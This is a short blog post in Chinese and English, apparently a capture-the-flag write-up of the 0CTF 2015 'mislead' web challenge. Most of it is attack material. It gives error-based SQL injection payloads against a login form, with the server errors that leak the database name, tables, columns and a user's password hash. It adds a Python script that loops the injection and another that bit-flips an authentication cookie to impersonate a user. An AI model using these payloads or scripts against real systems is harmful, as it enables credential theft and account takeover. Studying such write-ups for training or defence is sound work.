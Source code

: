 ```yaml
---
title: mis_lead
author: tank96a
layout: post
categories:
  - article
tags:
  - web
---
```


详见[原文链接](http://www.pwntester.com/blog/2015/03/30/0ctf-2015-mislead-web-300/)

 `Duplicate entry technique` 经典注入语句
 
`Get the DB`:
{% highlight php %}
username=pwner10&password='),(select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) );#&submit=Submit
{% endhighlight %}

Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'mislead1'` for key 'group_key'<br>maybe another username?  

`Get the tables`:
{% highlight php %}
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  
 );#&submit=Submit
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'users~1'` for key 'group_key'<br>maybe another username?  

`Get the columns`:
{% highlight php %}
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e)) from information_schema.columns where table_name='users' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  );#&submit=Submit  
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'id~1'` for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'username~1'` for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'password~1'` for key 'group_key'<br>maybe another username?  

`Get the first user`:
{% highlight php %}
 username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(concat(`username`,0x7e,`password`) as char),0x7e)) from users limit `0`,1),floor(rand(0)*2))x from information_schema.tables group by x)a)   );#&submit=Submit
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'0ops~13096de41fe9a97b700d4d9e21665484~1'` for key 'group_key'<br>maybe another username?  

We decide to `flip bits` in the cookie to see which byte can change the login name, then found the 14th byte make it. The logging message changes and our names is modified. So we can try to bit-flip the cookie and get the username to be 0ops. For that, the easiest way is to register a name very similar (just one letter off) and bit-flip that byte until we get the right name.

在cookies中寻找关键字节的开始位置，用户名会随着这个字节的改变而改变，这个就是可以爆破的位置。
先爆破一个和目标用户名只差一个字母的用户的cookies值：

{% highlight python %}
import requests  
url = 'http://202.112.26.101//mislead/register.php'  
for i in xrange(4000):  
    data = {
        'username': 'pwntester',
        'password': "'),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit %d,1),floor(rand(0)*2))x from information_schema.tables group by x)a));#" % i,
        'submit': 'Submit',
    }
    res = requests.post(url, data=data)
    if "ops~" in res.text:
        print res.text
{% endhighlight %}

先找到cookies中的关键字节位置，然后在该位置`爆破`出目标cookies值。

{% highlight python %}
import requests  
from base64 import b64decode, b64encode  
#from hexdump import hexdump  
import sys  
import string

url = 'http://202.112.26.101//mislead/index.php'  
OopsCookie = 'YWVkMTM0MjNjYWZkY2IyMDgxODExNDcwM2E1ODY2NWZhYTAzMzY3ZjQ1ZjFjMjQxNmQxNjRjNGM1ZGM0ZDEwZA=='  
binCookie = b64decode(OopsCookie).decode("hex")  
bytelength = len(binCookie)

def is_printable(s):  
    for ch in s:
        if not ch in string.printable:
            return False
    return True

def flip_byte(msg, pos, byte=0x10):  
    msg = msg[:pos] + chr(ord(msg[pos]) ^ byte) + msg[pos+1:]
    return msg

for i in xrange(bytelength):  
    res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i).encode("hex"))})
    print i, res.text
    if "Hello" in res.text and "Oops" not in res.text:
        for c in xrange(256):
            res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i, c).encode("hex"))})
            if is_printable(res.text):
                print i, c, res.text
{% endhighlight %}

感想：不能简单从cookies的长度来判断加密类型，容易陷入思维定势；经典的注入语句要记住；`requests`这个linux下的python模块确实简单好用。




